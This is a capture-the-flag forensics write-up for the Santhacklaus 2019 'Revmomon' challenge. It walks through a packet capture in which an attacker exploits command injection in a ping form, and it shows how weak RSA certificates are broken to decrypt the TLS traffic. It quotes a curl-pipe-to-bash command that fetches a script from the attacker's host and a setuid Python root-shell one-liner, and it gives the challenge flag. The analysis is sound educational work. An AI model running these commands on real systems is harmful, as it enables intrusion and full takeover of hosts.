








# Santhacklaus CTF 2019 - Revmomon

This challenge is a forensics / crypto challenge from Santhacklaus CTF 2019.
You can visit the CTF platform [here](https://ctf.santhacklaus.xyz).

## Context

> Suspicious activity has been detected. Probably nothing to be scared about but take a look anyway.
> If you find anything, a backdoor, a malware or anything of this kind, flag is the sha256 of it.
> MD5 of the file : c93adc996da5dda82312e43e9a91d053
> [revmomon.zip](files/revmomon.zip)

## Capture analysis

The zip archive contains a Wireshark capture with TCP traffic.

If we scroll down the capture we can see some HTTP packets with first, what looks like the installation of several Debian packages, and then a web path bruteforce from 172.17.0.1 to 172.17.0.5.

It then looks like the attacker has found what he was looking for since he got a 200 HTTP response code on /index.php.



It seems that the index.php is a simple page with an input form for the visitor to test if an IP address is reachable by ping.



However, it seems that this form is vulnerable to command injection since the attacker then proceeded to use the form to upload and execute a script from its own HTTP server by running the command `curl -k https://172.17.0.1/a.sh | bash`.

Unfortunately for us, the rest of the traffic is encrypted by the TLSv1.2 protocol.



## Breaking TLS certificates

After reviewing the capture to see if there are any leeked private key, we don't find anything else interesting.

So the only idea left is to extract the public certificates used to encrypt the traffic and see if we are able to break them.

To extract the certificates, we search for the `Server Hello, Certificate, Server Hello Done` packets in the capture and look for `TLS` > `TLS v1.2 Record Layer: Handshake Protocol: Certificate` > `Handshake Protocol: Certificate` > `Certificates` > `Certificates` in the packet's details. We right click on this line and choose `Export Selected Packet Bytes` and save these certificates as certifX.der.



This way, we've got 8 certifX.der files but if we take a look at their md5sum, we notice that there are actually only 3 distinct certificates.



We can get the information contained in these certificates by running `openssl x509 -inform DER -in certifX.der -text`.

The certificates are 2048-bit RSA public keys so it will be hard to factorize the modulus. Nonetherless, I tried my luck on factordb.com and it unsurprinsingly found no known factors...

However, if we take a closer look at our three certificates, we notice that two of them have a suspicious issuer:



With those two certificates standing out, we can convert them into public keys with:
```bash
for i in {1,3}; do openssl x509 -inform DER -in certif$i.der -out certif$i.pem; openssl x509 -pubkey -noout -in certif$i.pem -out pubkey$i.pem; done
```
and then try a common factor attack on these public keys with [RsaCtfTool](https://github.com/Ganapati/RsaCtfTool).
```bash
python RsaCtfTool.py --attack comfact_cn --publickey "pubkey*" --private
```



RsaCtftool returns within seconds the two private keys we need to decrypt our encrypted traffic. We save them as [priv1.key](files/priv1.key) and [priv3.key](files/priv3.key).

We then go back to Wireshark and add our two private keys in the menu `Edit` > `Preferences` > `Protocols` > `TLS` > `RSA keys list` > `Edit` and add the keys according to the server's IP and TLS port (here 172.17.0.5:8443).

If we now go to our TLS packets, we can right click on one packet and follow the TLS stream. The [decrypted packets](files/decrypted_tls.txt) tells us that the attacker has spawned a python reverse shell.

He then uploaded LinEnum.sh on the server, ran it and found in the report the SETUID capability set on `/usr/bin/python2.7`.



So he executed `/usr/bin/python2.7 -c 'import os; os.setuid(0); os.system("/bin/sh")'` and got a root shell.

Before exiting the session, he uploaded a suspicious file named **DRUNK_IKEBANA** that we can extract by going to `File` >`Export Objects` > `HTTP` > `Save`.

So now that we have our [malicious file](files/DRUNK_IKEBANA), we can use the sha256sum as our flag to validate the challenge:

```bash
$ echo SANTA{$(sha256sum DRUNK_IKEBANA | cut -d' ' -f1)}
SANTA{daeb4a85965e61870a90d40737c4f97d42ec89c1ece1c9b77e44e6749a88d830}
```
